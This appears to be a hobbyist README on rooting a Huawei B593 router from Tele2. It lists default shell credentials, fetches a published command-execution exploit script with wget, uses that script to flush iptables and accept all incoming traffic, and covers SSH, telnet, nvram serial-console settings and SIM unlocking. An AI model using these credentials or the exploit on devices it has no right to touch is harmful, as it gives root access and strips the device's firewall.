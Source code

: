 # Huawei 593 - Tele2

### For sim unlock:

    http://huaweicodecalculator.com/credits - yup, it actually works fine for this router :)

### Default Shell Login For This Router:

    login: admin
    pass: HW4GCPE

### Download B593cmd.pl:

    Credits goes to: Jari Turkia 
    wget http://opensource.hqcodeshop.com/Huawei%20B593/exploit/B593cmd.pl
    chmod +x B593cmd.pl

### Execute commands with

    ./B593cmd.pl <ip> <admin_pw> "command_to_execute"

### Allow incoming connections

    ./B593cmd.pl 192.168.1.3 odemnn  "iptables -I INPUT -i br0 -j ACCEPT"

### SSH:

    ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc admin@192.168.1.3 -s /bin/sh

### Clear all iptables

    ./B593cmd.pl 192.168.1.1 admin "iptables -nL INPUT"
    ./B593cmd.pl 192.168.1.3 odemnn "iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;iptables -F;iptables -X

### Login
 
    telnet 192.168.1.3

### Enable serial console

Enable CFE and normal boot (B593.trx) serial console

    nvram set console_disable=0

Enable boot_wait with 10 second delay for more recovery options

    nvram set boot_wait=on
    nvram set wait_time=10

Boot regular OS (B593.trx). Use boot_part=1 for recovery OS (B593-small.trx)
    
    nvram set boot_part=0

Write changes made to NVRAM
 
    nvram commit

### Backup 

![Screenshot](pics/cbackup-script_tele2.gif)

Run script in scripts/backup-script.sh for backup as above

References

<br>http://opensource.hqcodeshop.com/Huawei%20B593/exploit/B593cmd.pl
<br>https://blog.hqcodeshop.fi/archives/130-Exploit-Running-commands-on-B593-shell.html
<br>http://blog.asiantuntijakaveri.fi/search/label/b593
<br>http://blog.asiantuntijakaveri.fi/2013/08/gaining-root-shell-on-huawei-b593-4g.html
<br>http://blog.asiantuntijakaveri.fi/2014/08/persistent-customizations-to-huawei.html
<br>https://dlcdnets.asus.com/pub/ASUS/wireless/RT-N53/FW_RT_N53_30043763754.zip

### CONTACT 

If you have problems, questions, ideas or suggestions please contact me by posting to wuseman@nr1.nu

### WEB SITE

Visit my websites and profiles for the latest info and updated tools

https://github.com/wuseman/ && https://nr1.nu && https://stackoverflow.com/users/9887151/wuseman

### END!
